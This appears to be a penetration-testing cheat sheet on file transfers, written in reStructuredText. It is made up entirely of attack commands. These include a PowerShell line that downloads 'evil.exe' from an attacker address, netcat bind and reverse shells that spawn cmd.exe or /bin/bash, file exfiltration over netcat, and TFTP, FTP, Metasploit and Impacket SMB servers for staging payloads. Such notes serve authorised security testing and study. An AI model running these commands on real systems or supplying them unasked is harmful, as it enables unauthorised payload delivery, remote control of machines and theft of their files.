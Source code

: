File Transfers
==============

Powershell
----------

.. code-block:: shell

	powershell (new-object System.Net.WebClient).DownloadFile('http://[your_ip_address]/evil.exe','evil.exe')


A link-  :ref:`Netcat`

Netcat2
----------

- Server: nc –nlvp <port> &gt; incoming.exe
- Client: nc –nv <your_ip_address> <port> &lt; /path/to/the/file.exe
- Bind shell: nc –nlvp <port> –e cmd.exe
- Reverse shell: nc –nv <your_ip_address><port> -e /bin/bash

TFTP
----------

-   Kali: atftp –daemon –port 69 /somedir
-   Windows: tftp -i <your ip> get some.exe

FTP
----------

-   apt-get install python-pyftpdlib
    -   Python –m pyftpdlib –p 21
-   Metasploit
    -   use auxiliary/server/ftp
    -   set FTPROOT /some/dir
    -   exploit

SMB
----------

-   Smbserver.py (https://github.com/CoreSecurity/impacket)
    -   python smbserver.py &lt;sharename&gt; /some/dir